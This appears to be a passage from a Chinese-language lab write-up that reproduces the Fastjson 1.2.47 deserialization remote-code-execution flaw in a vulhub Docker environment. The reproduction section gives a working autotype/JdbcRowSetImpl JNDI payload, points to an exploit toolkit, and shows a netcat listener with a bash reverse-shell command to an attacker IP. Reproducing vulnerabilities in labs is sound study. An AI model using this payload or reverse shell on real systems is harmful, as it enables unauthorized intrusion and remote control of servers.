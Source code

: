 0x03 环境搭建
---------

启动 fastjson 反序列化导致任意命令执行漏洞 环境

```php
1.进入 vulhub 的 Fastjson 1.2.47 路径
cd /usr/local/tools/vulhub/fastjson/1.2.47-rce

2.编译并启动环境
docker-compose up -d

3.查看环境运行状态
docker ps | grep rce
```

0x04 漏洞复现
---------

fastjson提供了autotype功能，在请求过程中，我们可以在请求包中通过修改@type的值，来反序列化为指定的类型，而fastjson在反序列化过程中会设置和获取类中的属性，如果类中存在恶意方法，就会导致代码执行漏洞产生。

查看fastjson漏洞利用工具的pyload

```php
payload = """
    {
        "a": {
            "@type": "java.lang.Class", 
            "val": "com.sun.rowset.JdbcRowSetImpl"
        }, 
        "b": {
            "@type": "com.sun.rowset.JdbcRowSetImpl", 
            "dataSourceName": "%s", 
            "autoCommit": true
        }
    }
```

工具下载

```php
https://github.com/zhzyker/exphub/tree/master/
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-d523967a2eefa1bfa7f414b5fa2557886b8fa246.png)

```php
nc -lnvp 8888
```

物理机运行RMI服务，加载恶意java类  
//转换成可执行代码

```php
bash -i >& /dev/tcp/192.168.200.160/8888 0>&1
```
